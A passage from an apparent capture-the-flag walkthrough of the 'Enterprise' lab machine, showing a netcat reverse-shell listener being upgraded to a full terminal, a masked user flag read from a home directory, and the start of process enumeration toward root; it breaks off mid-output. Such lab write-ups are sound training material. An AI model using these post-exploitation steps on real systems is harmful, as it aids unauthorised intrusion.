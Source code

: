 
I’ll upgrade the shell:

    
    
    www-data@enterprise:/var/www/html/files$ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@enterprise:/var/www/html/files$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
                                                                             
    www-data@enterprise:/var/www/html/files$ 
    

The box has one user, and I can grab `user.txt`:

    
    
    www-data@enterprise:/home$ ls
    jeanlucpicard
    www-data@enterprise:/home$ ls jeanlucpicard/
    user.txt
    www-data@enterprise:/home$ cat jeanlucpicard/user.txt
    08552d48************************
    

This host has the IPs 172.17.0.1 and 10.10.10.61, confirming that it is the
Docker host.

## Shell as root

### Enumeration

`pstree` is installed, and a nice way to look at the running processes:

    
    
    www-data@enterprise:/$ pstree
    systemd-+-VGAuthService
            |-accounts-daemon-+-{gdbus}
            |                 `-{gmain}
            |-acpid
            |-agetty
            |-apache2-+-5*[apache2]
            |         `-apache2---sh---bash---bash---script---sh---bash---pstree
            |-atd
            |-cron
            |-dbus-daemon
            |-dockerd-+-docker-containe-+-docker-containe-+-mysqld---28*[{mysqld}]
            |         |                 |                 `-9*[{docker-containe}]
            |         |                 |-docker-containe-+-apache2---5*[apache2]
            |         |                 |                 `-9*[{docker-containe}]
            |         |                 |-docker-containe-+-apache2-+-apache2---sh-+
            |         |                 |                 |         `-5*[apache2]
            |         |                 |                 `-9*[{docker-containe}]